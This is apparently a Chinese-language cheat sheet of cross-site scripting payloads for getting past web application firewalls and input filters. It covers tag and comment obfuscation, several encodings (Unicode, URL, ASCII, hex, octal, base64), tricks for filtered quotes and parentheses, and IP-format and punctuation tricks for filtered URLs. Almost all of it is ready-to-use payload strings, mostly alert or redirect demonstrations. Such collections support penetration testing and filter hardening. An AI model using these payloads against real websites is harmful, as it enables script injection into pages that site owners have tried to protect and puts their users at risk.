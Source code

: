 **`其它字符混淆`**

> 
有的waf可能是用正则表达式去检测是否有xss攻击，如果我们能fuzz出正则的规则，则我们就可以使用其它字符去混淆我们注入的代码了<br/> 下面举几个简单的例子<br/> 可利用注释、标签的优先级等<br/> `<<script<alert("xss");//<</script>`<br/> `<scri<!--test-->pt<alert("hello world!")</scri<!--test-->pt>`<br/> `<title><img src=</title>><img src=x onerror="alert(``xss``);">` 因为title标签的优先级比img的高，所以会先闭合title，从而导致前面的img标签无效<br/> `<SCRIPT<var a="\\";alert("xss");//";</SCRIPT>`



**`编码绕过`**

> Unicode编码绕过<br/> `<img src="x" onerror="&amp;#97;&amp;#108;&amp;#101;&amp;#114;&amp;#116;&amp;#40;&amp;#34;&amp;#120;&amp;#115;&amp;#115;&amp;#34;&amp;#41;&amp;#59;">`<br/> `<img src="x" onerror="eval('\u0061\u006c\u0065\u0072\u0074\u0028\u0022\u0078\u0073\u0073\u0022\u0029\u003b')">`<br/>
>
>  url编码绕过<br/> `<img src="x" onerror="eval(unescape('%61%6c%65%72%74%28%22%78%73%73%22%29%3b'))">`<br/> `<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>`<br/>
>
>  Ascii码绕过<br/> `<img src="x" onerror="eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,59))">`<br/>
>
>  Hex绕过<br/> `<img src=x onerror=eval('\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29')>`<br/>
>
>  八进制绕过<br/> `<img src=x onerror=alert('\170\163\163')>`<br/>
>
>  base64绕过<br/> `<img src="x" onerror="eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cuYmFpZHUuY29tJw=='))">`<br/> `<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">`



**`过滤双引号，单引号`**

> 
如果是html标签中，我们可以不用引号；如果是在js中，我们可以用反引号代替单双引号<br/> `<img src="x" onerror=alert(``xss``);>`<br/> 使用编码绕过，具体看上面列举的例子



**`过滤括号`**

> 
当括号被过滤的时候可以使用throw来绕过<br/> `<svg/onload="window.onerror=eval;throw'=alert\x281\x29';">`



**`过滤url地址`**

> 使用url编码<br/> `<img src="x" onerror=document.location=``http://%77%77%77%2e%62%61%69%64%75%2e%63%6f%6d/``>`<br/>
>
>  使用IP<br/> `<img src="x" onerror=document.location=``http://2130706433/``>`十进制<br/> `<img src="x" onerror=document.location=``http://0177.0.0.01/``>`八进制<br/> `<img src="x" onerror=document.location=``http://0x7f.0x0.0x0.0x1/``>`十六进制<br/> `<img src="x" onerror=document.location=``//www.baidu.com``>`html标签中用//可以代替http://<br/> 使用\ (注意：在windows下\本身就有特殊用途，是一个path 的写法，所以\在Windows下是file协议，在linux下才会是当前域的协议)<br/>
>
>  使用中文逗号代替英文逗号<br/> `<img src="x" onerror="document.location=``http://www。baidu。com``">//会自动跳转到百度`

